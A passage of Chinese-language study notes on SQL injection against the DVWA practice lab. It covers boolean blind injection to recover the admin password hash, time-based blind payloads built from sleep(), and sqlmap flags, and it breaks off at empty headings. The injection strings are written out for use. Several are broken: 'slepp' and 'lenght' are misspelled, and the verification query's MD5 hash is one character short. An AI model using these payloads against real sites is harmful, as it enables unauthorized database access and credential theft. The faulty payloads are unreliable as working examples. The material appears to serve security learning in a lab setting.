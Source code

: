   依次爆破，得到第一个字段是`admin`。同理爆破`password`得到密码，但dvwa这里的密码用md5加密了，所以会有点长，这里同样可以爆破或者根据题目背景猜测弱密码等，得到密码为`md5(password)=5f4dcc3b5aa765d61d8327deb882cf99`

  验证爆破答案

  ```
  1' and (select count(*) from users where user='admin'  and password='5f4dcc3b5aa765d61d8327deb882cf9')=1 #
  ```

- 每个都可以用`BurpSuite`的`intruder`功能爆破

- 还可以用`sqlmap`

  ```
  -u 指定注入点
  --dbs 跑库名
  --tables 跑表名
  --columns 跑字段名
  --dump 枚举数据
  ```

  

### 2.时间盲注

布尔盲注是通过页面返回正误来判断，而在没有回显正误的条件下，可以考虑是否可以进行时间盲注，一般通过`if`语句连接判断条件和`sleep`函数，如果判断条件成立，页面会有延时，否则就没有延时

- 判断是否可以使用时间盲注

  ```
  1' and slepp(5) #
  ```

- 判断数据库长度

  ```
  1' and if((lenght(database()))=len, slepp(5) ,1) #
  ```

- 猜测数据库名

  ```
  1' and if((ascii(substr(database(),1,1)))=ascall_num,sleep(5),1) #
  ```

- 方法布尔盲注差不多，只不过是判断条件不同而已

#### 3.报错盲注

## 4.sqlmap的使用

- 支持的数据库类型：

  ```
  MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB
  ```

- 常用命令
